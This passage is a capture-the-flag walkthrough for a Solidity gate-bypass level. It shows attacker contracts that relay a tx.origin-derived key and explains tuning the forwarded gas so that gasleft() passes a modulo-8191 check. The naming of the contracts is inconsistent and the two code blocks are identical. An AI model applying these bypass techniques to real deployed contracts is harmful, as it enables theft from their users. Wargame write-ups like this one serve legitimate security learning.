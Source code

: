 Useful links:

- [gasleft](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html#block-and-transaction-properties) function
- Solidity [opcode](https://medium.com/@blockchain101/solidity-bytecode-and-opcode-basics-672e9b1a88c2) basics
- [Explicit Conversion](https://docs.soliditylang.org/en/v0.8.3/types.html#explicit-conversions) between types

We start with following `GatePassOne` to attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract GatePassOne {
    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin)));
        (bool success, ) = address(_gateAddr).call{gas: _gas}(abi.encodeWithSignature("enter(bytes8)", gateKey));
        return success;
    }
}
```

**gateOne**

This is exactly same as level 4. A basic intermediary contract will be used to call `enter`, so that `msg.sender` != `tx.origin`.

**gateTwo**

According to the contract, the remaining gas just after `gasleft` is called, should be a multiple of 8191. We can control the gas amount sent with transaction using `call`. But it need to be set in such a way that amount set minus amount used up until `gasleft`'s return should be a multiple of 8191.

I'm going to use Remix's Debug feature and a little bit of trial & error to determine the remaining gas up until to that point. But first copy & deploy `GatekeeperOne` in Remix with `JavaScript VM` environment (since trials are quick & Debug on testnet didn't work on Remix for me!), with same solidity compiler version. Also deploy `GateKeeperOneGasEstimate` with same environment, to help with estimating gas used up to that point:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract GateKeeperOneGasEstimate {
    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin)));
        (bool success, ) = address(_gateAddr).call{gas: _gas}(abi.encodeWithSignature("enter(bytes8)", gateKey));
        return success;
    }
}
```
